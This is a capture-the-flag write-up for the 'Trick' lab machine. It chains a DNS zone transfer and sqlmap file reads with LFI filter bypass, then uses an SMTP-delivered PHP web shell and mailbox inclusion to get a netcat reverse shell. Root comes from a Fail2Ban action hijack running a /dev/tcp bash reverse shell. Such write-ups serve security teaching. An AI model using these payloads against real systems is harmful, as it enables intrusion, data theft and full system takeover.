



# Trick

Difficulty: Easy
OS: Linux
Category: Offensive
Date: 2026-09-30
Added: 2026-10-01


I followed DNS and SQL-injection findings to a file-inclusion flaw, included a PHP payload from a mailbox, and used writable Fail2Ban actions to reach root.

## Enumeration

I combined RustScan and Nmap to identify the exposed services:
```shell
# Nmap 7.99 scan initiated Tue Sep 29 22:19:17 2026 as: /usr/lib/nmap/nmap --privileged -vvv -p 22,25,53,80 -4 -sCV -oN scans-Trick 10.129.227.180
Nmap scan report for 10.129.227.180
Host is up, received reset ttl 63 (0.24s latency).
Scanned at 2026-09-29 22:19:18 +08 for 259s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 61:ff:29:3b:36:bd:9d:ac:fb:de:1f:56:88:4c:ae:2d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5Rh57OmAndXFukHce0Tr4BL8CWC8yACwWdu8VZcBPGuMUH8VkvzqseeC8MYxt5SPL1aJmAsZSgOUreAJNlYNBBKjMoFwyDdArWhqDThlgBf6aqwqMRo3XWIcbQOBkrisgqcPnRKlwh+vqArsj5OAZaUq8zs7Q3elE6HrDnj779JHCc5eba+DR+Cqk1u4JxfC6mGsaNMAXoaRKsAYlwf4Yjhonl6A6MkWszz7t9q5r2bImuYAC0cvgiHJdgLcr0WJh+lV8YIkPyya1vJFp1gN4Pg7I6CmMaiWSMgSem5aVlKmrLMX10MWhewnyuH2ekMFXUKJ8wv4DgifiAIvd6AGR
|   256 9e:cd:f2:40:61:96:ea:21:a6:ce:26:02:af:75:9a:78 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAoXvyMKuWhQvWx52EFXK9ytX/pGmjZptG8Kb+DOgKcGeBgGPKX3ZpryuGR44av0WnKP0gnRLWk7UCbqY3mxXU0=
|   256 72:93:f9:11:58:de:34:ad:12:b5:4b:4a:73:64:b9:70 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGY1WZWn9xuvXhfxFFm82J9eRGNYJ9NnfzECUm0faUXm
25/tcp open  smtp?   syn-ack ttl 63
|_smtp-commands: Couldn't establish connection on port 25
53/tcp open  domain  syn-ack ttl 63 ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
| dns-nsid:
|_  bind.version: 9.11.5-P4-5.1+deb10u7-Debian
80/tcp open  http    syn-ack ttl 63 nginx 1.14.2
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
|_http-server-header: nginx/1.14.2
| http-methods:
|_  Supported Methods: GET HEAD
|_http-title: Coming Soon - Start Bootstrap Theme
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep 29 22:23:37 2026 -- 1 IP address (1 host up) scanned in 260.73 seconds
```
I opened port 80 and found a web application.

The initial web endpoints did not give me a useful lead. Because DNS was also exposed, I queried it for the target's hostname before enumerating virtual hosts:
```shell
dig @10.129.227.180 -x 10.129.227.180

; <<>> DiG 9.20.27-2-Debian <<>> @10.129.227.180 -x 10.129.227.180
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 20353
;; flags: qr aa rd; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 3
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: ba06e3856de1eee36154430f6abcd562df44cf847d772e41 (good)
;; QUESTION SECTION:
;180.227.129.10.in-addr.arpa.   IN      PTR

;; ANSWER SECTION:
180.227.129.10.in-addr.arpa. 604800 IN  PTR     trick.htb.

;; AUTHORITY SECTION:
227.129.10.in-addr.arpa. 604800 IN      NS      trick.htb.

;; ADDITIONAL SECTION:
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1

;; Query time: 235 msec
;; SERVER: 10.129.227.180#53(10.129.227.180) (UDP)
;; WHEN: Wed Sep 30 17:24:47 +08 2026
;; MSG SIZE  rcvd: 165
```
The PTR response identified **trick.htb**, which I added to `/etc/hosts`:
```shell
sudo vim /etc/hosts

# HTB Machines
10.129.227.180  trick.htb
```
My initial virtual-host fuzzing did not find a match. I then tested whether the DNS server would allow an AXFR zone transfer:
```shell
dig @10.129.227.180 axfr trick.htb

; <<>> DiG 9.20.27-2-Debian <<>> @10.129.227.180 axfr trick.htb
; (1 server found)
;; global options: +cmd
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.              604800  IN      NS      trick.htb.
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1
preprod-payroll.trick.htb. 604800 IN    CNAME   trick.htb.
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 239 msec
;; SERVER: 10.129.227.180#53(10.129.227.180) (TCP)
;; WHEN: Wed Sep 30 17:26:41 +08 2026
;; XFR size: 6 records (messages 1, bytes 231)
```
The zone transfer disclosed `preprod-payroll.trick.htb`. I added that hostname to the same target-IP mapping:
```shell
# HTB Machines
10.129.227.180  trick.htb preprod-payroll.trick.htb
```
The new virtual host served a payroll application. Its HTML title identified it as **Employee's Payroll Management System**:
```html
|   |
|---|
|<!DOCTYPE html>|
|<html lang="en">|
||
|<head>|
|<meta charset="utf-8">|
|<meta content="width=device-width, initial-scale=1.0" name="viewport">|
||
|<title>Admin \| Employee's Payroll Management System</title>|
||
||
|<meta content="" name="descriptison">|
|<meta content="" name="keywords">|
||
```
I used the application name as a research lead, but the title alone did not establish a particular CVE. I tested the login request directly instead.

Submitting the form sent the following username and password fields to `ajax.php?action=login`:
```http
http://preprod-payroll.trick.htb/ajax.php?action=login

username=asdasd&password=asdasd
```
I passed that POST request to sqlmap to test for SQL injection:
```shell
sqlmap -u 'http://preprod-payroll.trick.htb/ajax.php?action=login' --data 'username=asdasd&password=asdasd' --risk 3 --level 5 --batch                          ___
       __H__
 ___ ___[)]_____ ___ ___  {1.10.8#stable}
|_ -| . [)]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:43:27 /2026-09-30/

[17:43:27] [INFO] resuming back-end DBMS 'mysql'
[17:43:27] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=kmid4rsknpu...nj7nga4lu3'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=asdasd' AND (SELECT 4051 FROM (SELECT(!SLEEP(5)))NHZy) AND 'gCJk'='gCJk&password=asdasd

    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=asdasd' OR NOT 7109=7109-- aOOA&password=asdasd

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=asdasd' OR (SELECT 5742 FROM(SELECT COUNT(*),CONCAT(0x716a6b7071,(SELECT (ELT(5742=5742,1))),0x71786b6271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- xaJq&password=asdasd
---
[17:43:27] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.14.2, PHP
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[17:43:27] [INFO] fetched data logged to text files under '/home/m3m0rydmp/.local/share/sqlmap/output/preprod-payroll.trick.htb'

[*] ending @ 17:43:27 /2026-09-30/
```
sqlmap reported time-based, boolean-based, and error-based injection in the `username` parameter. To avoid the deliberate delays used by time-based tests, I restricted the next run to `BEUS`, excluding time-based (`T`) and inline-query (`Q`) techniques:
```shell
sqlmap -u 'http://preprod-payroll.trick.htb/ajax.php?action=login' --data 'username=asdasd&password=asdasd' --risk 3 --level 5 --batch --technique=BEUS --dbms=mysql
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.10.8#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:45:33 /2026-09-30/

[17:45:33] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=q2b1dctsg5m...6fsc4hbk2m'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=asdasd' OR NOT 7109=7109-- aOOA&password=asdasd

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=asdasd' OR (SELECT 5742 FROM(SELECT COUNT(*),CONCAT(0x716a6b7071,(SELECT (ELT(5742=5742,1))),0x71786b6271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- xaJq&password=asdasd
---
[17:45:34] [INFO] testing MySQL
[17:45:34] [WARNING] reflective value(s) found and filtering out
[17:45:34] [INFO] confirming MySQL
[17:45:35] [INFO] the back-end DBMS is MySQL
web application technology: PHP, Nginx 1.14.2
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[17:45:35] [INFO] fetched data logged to text files under '/home/m3m0rydmp/.local/share/sqlmap/output/preprod-payroll.trick.htb'

[*] ending @ 17:45:35 /2026-09-30/
```
The next run retained boolean-based and error-based injection. I then enumerated the database account's privileges:
```shell
sqlmap -u 'http://preprod-payroll.trick.htb/ajax.php?action=login' --data 'username=asdasd&password=asdasd' --risk 3 --level 5 --batch --technique=BEUS --dbms=mysql --privileges

<SNIP>

[17:46:26] [INFO] testing MySQL
[17:46:26] [INFO] confirming MySQL
[17:46:26] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.14.2, PHP
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[17:46:26] [INFO] fetching database users privileges
[17:46:26] [INFO] resumed: ''remo'@'localhost''
[17:46:26] [INFO] resumed: 'FILE'
database management system users privileges:
[*] 'remo'@'localhost' [1]:
    privilege: FILE

[17:46:26] [INFO] fetched data logged to text files under '/home/m3m0rydmp/.local/share/sqlmap/output/preprod-payroll.trick.htb'

[*] ending @ 17:46:26 /2026-09-30/
```
The account had the `FILE` privilege. File access still depends on the database configuration and the database process's filesystem permissions, so I tested an actual read of `/etc/passwd`:
```shell
sqlmap -u 'http://preprod-payroll.trick.htb/ajax.php?action=login' --data 'username=asdasd&password=asdasd' --risk 3 --level 5 --batch --file-read=/etc/passwd

<SNIP>

[17:47:57] [INFO] fingerprinting the back-end DBMS operating system
[17:47:57] [INFO] the back-end DBMS operating system is Linux
[17:47:57] [INFO] fetching file: '/etc/passwd'

do you want confirmation that the remote file '/etc/passwd' has been successfully downloaded from the back-end DBMS file system? [Y/n] Y
[17:47:58] [WARNING] reflective value(s) found and filtering out
[17:47:58] [INFO] retrieved: '2351'
[17:47:58] [INFO] the local file '/home/m3m0rydmp/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_passwd' and the remote file '/etc/passwd' have the same size (2351 B)
files saved to [1]:
[*] /home/m3m0rydmp/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_passwd (same file)

[17:47:58] [INFO] fetched data logged to text files under '/home/m3m0rydmp/.local/share/sqlmap/output/preprod-payroll.trick.htb'

[*] ending @ 17:47:58 /2026-09-30/
```
I read the downloaded file from sqlmap's output directory:
```shell
cat /home/m3m0rydmp/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
<SNIP>
bind:x:120:128::/var/cache/bind:/usr/sbin/nologin
michael:x:1001:1001::/home/michael:/bin/bash
```
The file identified a local user named `michael`. I also knew Nginx was serving the virtual hosts, so I tried reading its enabled-site configuration:
```shell
sqlmap -u 'http://preprod-payroll.trick.htb/ajax.php?action=login' --data 'username=asdasd&password=asdasd' --risk 3 --level 5 --batch --file-read=/etc/nginx/sites-enabled/default

<SNIP> 

[17:55:59] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.14.2, PHP
back-end DBMS: MySQL 5 (MariaDB fork)
[17:55:59] [INFO] fingerprinting the back-end DBMS operating system
[17:55:59] [INFO] the back-end DBMS operating system is Linux
[17:55:59] [INFO] fetching file: '/etc/nginx/sites-enabled/default'

do you want confirmation that the remote file '/etc/nginx/sites-enabled/default' has been successfully downloaded from the back-end DBMS file system? [Y/n] Y
[17:56:00] [WARNING] reflective value(s) found and filtering out
[17:56:00] [INFO] retrieved: '1058'
[17:56:00] [INFO] the local file '/home/m3m0rydmp/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_nginx_sites-enabled_default' and the remote file '/etc/nginx/sites-enabled/default' have the same size (1058 B)
files saved to [1]:
[*] /home/m3m0rydmp/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_nginx_sites-enabled_default (same file)

[17:56:00] [INFO] fetched data logged to text files under '/home/m3m0rydmp/.local/share/sqlmap/output/preprod-payroll.trick.htb'

[*] ending @ 17:56:00 /2026-09-30/

cat /home/m3m0rydmp/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_nginx_sites-enabled_default

<SNIP>

server {
        listen 80;
        listen [::]:80;

        server_name preprod-marketing.trick.htb;

        root /var/www/market;
        index index.php;

        location / {
                try_files $uri $uri/ =404;
        }

        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm-michael.sock;
        }
}

server {
        listen 80;
        listen [::]:80;

        server_name preprod-payroll.trick.htb;

        root /var/www/payroll;
        index index.php;

        location / {
                try_files $uri $uri/ =404;
        }

        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm.sock;
        }
}
```
The configuration disclosed another virtual host, `preprod-marketing.trick.htb`, and a PHP-FPM socket named for `michael`. I added the new hostname to `/etc/hosts`:
```shell
# HTB Machines
10.129.227.180  trick.htb preprod-payroll.trick.htb preprod-marketing.trick.htb
```
I opened the marketing application.


While navigating between its pages, I noticed the `page` query parameter changing.

For example, the Services link used `/index.php?page=services.html`. I suspected the application might use that parameter in a PHP `include()`. The following is illustrative code, not source I recovered from the server:
```php
<?php
$page = $_GET['page'];
include("/var/www/market/" . $page);
?>
```
That behavior gave me a reason to test path traversal in `page`.

A basic traversal payload returned a blank page. That response alone did not prove file inclusion; it could also indicate an error or a rejected path.

Other inputs returned a normal page, leading me to suspect that `../` sequences were being removed. One possible implementation would be the following single-pass replacement. I had not confirmed this source code:
```php
<?php
$page = $_GET['page'];
include("/var/www/market/" . str_replace("../", "", $page));
?>
```
I tried `....//` sequences. If a filter removes `../` once, this pattern can leave another `../` after replacement.

A blank response was still inconclusive, so I tested a known file: `/etc/passwd`.

The response displayed `/etc/passwd`, confirming that I could read a file outside the intended web directory.

## Foothold
I next returned to the SMTP service from the initial scan. Since I knew the local username `michael`, I tried delivering a message containing PHP code to that account:
```shell
nc trick.htb 25
220 debian.localdomain ESMTP Postfix (Debian/GNU)
helo x
250 debian.localdomain
mail from: test
r250 2.1.0 Ok
rcpt to: michael
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
<?php system($_GET['cmd']); ?>
.
250 2.0.0 Ok: queued as B2F334099D
```
The `220` banner identified the SMTP service. I introduced the session with `HELO`, specified the sender and recipient, then entered the message body after `DATA`. A line containing only `.` ended the message. The PHP fragment reads a `cmd` parameter and passes it to `system()`; my next step was to include the stored mailbox through the vulnerable web page.

I started a Netcat listener:
```
nc -lvnp 4001
```

I targeted `/var/mail/michael`, where the delivered message was stored. Including that file through PHP allowed the code in the message to execute. I supplied a URL-encoded Netcat command in the `cmd` parameter to connect back to my listener:
```http
http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//var/mail/michael&cmd=nc%2010.10.15.245%204001%20-e%20%2Fbin%2Fsh
```
The connection gave me a shell as `michael`. I then read the user flag:
```shell
cat /home/michael/user.txt
3a9<SNIP>b4a
```

## Root
I checked which commands `michael` could run through sudo:
```shell
sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```
The rule allowed a passwordless restart of Fail2Ban as root. It did not permit arbitrary sudo commands. I checked my group memberships next:
```shell
id
uid=1001(michael) gid=1001(michael) groups=1001(michael),1002(security)
```
My account belonged to **security**, so I inspected the Fail2Ban configuration directory for files or directories writable by that group:
```shell
cd /etc/fail2ban

michael@trick:/etc/fail2ban$ ls -la
total 76
drwxr-xr-x   6 root root      4096 Sep 30 13:09 .
drwxr-xr-x 126 root root     12288 Sep 30 12:58 ..
drwxrwx---   2 root security  4096 Sep 30 13:09 action.d
-rw-r--r--   1 root root      2334 Sep 30 13:09 fail2ban.conf
drwxr-xr-x   2 root root      4096 Sep 30 13:09 fail2ban.d
drwxr-xr-x   3 root root      4096 Sep 30 13:09 filter.d
-rw-r--r--   1 root root     22908 Sep 30 13:09 jail.conf
drwxr-xr-x   2 root root      4096 Sep 30 13:09 jail.d
-rw-r--r--   1 root root       645 Sep 30 13:09 paths-arch.conf
-rw-r--r--   1 root root      2827 Sep 30 13:09 paths-common.conf
-rw-r--r--   1 root root       573 Sep 30 13:09 paths-debian.conf
-rw-r--r--   1 root root       738 Sep 30 13:09 paths-opensuse.conf
```
The `action.d` directory was writable by the **security** group. Fail2Ban action files define commands such as `actionban`, which runs when a matching IP is banned. I inspected the action file used by the SSH jail:
```shell
----------
<SNIP>
-rw-r--r-- 1 root root      1417 Sep 30 13:09 ipfw.conf
-rw-r--r-- 1 root root      1426 Sep 30 13:09 iptables-allports.conf
-rw-r--r-- 1 root root      2738 Sep 30 13:09 iptables-common.conf
-rw-r--r-- 1 root root      2000 Sep 30 13:09 iptables-ipset-proto4.conf
-rw-r--r-- 1 root root      2197 Sep 30 13:09 iptables-ipset-proto6-allports.conf
-rw-r--r-- 1 root root      2240 Sep 30 13:09 iptables-ipset-proto6.conf
-rw-r--r-- 1 root root      2082 Sep 30 13:09 iptables-multiport-log.conf
-rw-r--r-- 1 root root      1420 Sep 30 13:09 iptables-multiport.conf
-rw-r--r-- 1 root root      1497 Sep 30 13:09 iptables-new.conf
-rw-r--r-- 1 root root      2584 Sep 30 13:09 iptables-xt_recent-echo.conf
-rw-r--r-- 1 root root      1339 Sep 30 13:09 iptables.conf
-rw-r--r-- 1 root root      2343 Sep 30 13:09 mail-buffered.conf
-rw-r--r-- 1 root root      1049 Sep 30 13:09 mail-whois-common.conf
<SNIP>
----------
```
Although `iptables-multiport.conf` itself was owned by root, I could rename and replace its directory entry because I had write and execute permission on `action.d`. I preserved the original as `.old` and copied it back to a new file owned by my account:
```shell
michael@trick:/etc/fail2ban/action.d$ mv iptables-multiport.conf .old
michael@trick:/etc/fail2ban/action.d$ cp .old iptables-multiport.conf
michael@trick:/etc/fail2ban/action.d$ ls -la iptables-multiport.conf
-rw-r--r-- 1 michael michael 1420 Sep 30 13:13 iptables-multiport.conf
```
I could now edit the replacement file. I changed its `actionban` command to invoke a script under `/tmp`:
```shell
----------
<SNIP>
# Option:  actionban
# Notes.:  command executed when banning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
<SNIP>
----------

# Replace the line to

actionban = /tmp/shell.sh
```
I created `/tmp/shell.sh` with the following content:
```shell
#!/bin/bash
bash -i >& /dev/tcp/10.10.15.245/4003 0>&1
```
I made the script executable and restarted Fail2Ban so it would load the changed action:

```bash
chmod +x /tmp/shell.sh
sudo /etc/init.d/fail2ban restart
```

These setup commands fill a gap in my original notes: changing the action file alone does not reload the running service. I then opened a second listener:
```shell
nc -lvnp 4003
```
I triggered the SSH jail with repeated failed login attempts as `michael`. Once the failures reached the jail's configured threshold, Fail2Ban ran the modified action and my listener received a root shell:
```shell
nc -lvnp 4003
listening on [any] 4003 ...
connect to [10.10.15.245] from (UNKNOWN) [10.129.227.180] 59952
bash: cannot set terminal process group (9473): Inappropriate ioctl for device
bash: no job control in this shell
root@trick:/#
```
I read the root flag from `/root/root.txt`:
```shell
cat /root/root.txt
250<SNIP>72b
```
